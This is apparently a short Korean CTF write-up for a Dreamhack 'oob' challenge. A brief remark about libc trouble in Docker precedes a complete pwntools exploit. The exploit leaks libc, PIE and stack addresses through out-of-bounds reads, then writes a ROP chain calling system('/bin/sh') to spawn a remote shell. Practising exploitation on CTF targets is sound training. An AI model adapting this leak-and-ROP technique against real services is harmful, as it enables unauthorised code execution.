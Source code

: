 도커에서 libc을 추출하고 gdb을 깔고 다시 libc을 갈아끼웠을 때 분명 안 됐는데, 그냥 내 우분투에서 libc를 쓰니까 바로 됐다... 진짜 억울하고 화난다. 앞으로는 이 방법으로 해야겠다..

```python
```python
from pwn import *

p = remote('host3.dreamhack.games', 8857)
l = ELF('./libc.so.6')
e = ELF('./oob')

def r(offset):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'offset: ', str(offset).encode())
    return p.recvn(1)

def w(offset, payload):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'offset: ', str(offset).encode())
    p.sendlineafter(b'value: ', str(payload).encode())

libc_base = b''
for i in range(16, 16 + 6):
    libc_base += r(i)
libc_base = u64(libc_base + b'\x00' * 2) - l.symbols['_IO_2_1_stdout_']
print("libc_base : " + hex(libc_base))

pie_base = b''
for i in range(-8, -8 + 6):
    pie_base += r(i)
pie_base = u64(pie_base + b'\x00' * 2) - e.symbols['__dso_handle']
print("pie_base : " + hex(pie_base))

environ = libc_base + l.symbols['__environ']
oob = pie_base + e.symbols['oob']
stack = b''
for i in range(environ - oob, environ - oob + 6):
    stack += r(i)
stack = u64(stack + b'\x00' * 2) - (0x7fffffffe768 - 0x7fffffffe640)
print("stack : " + hex(stack))

pop_rdi = libc_base + 0x000000000002a3e5
system = libc_base + l.symbols['system']
binsh = libc_base + list(l.search(b'/bin/sh'))[0]

offset = stack - oob

w(offset + 8 * 1, pop_rdi + 1)
w(offset + 8 * 2, pop_rdi)
w(offset + 8 * 3, binsh)
w(offset + 8 * 4, system)
p.sendlineafter(b'> ', b'3')

p.sendline(b'ls')

p.interactive()
```
```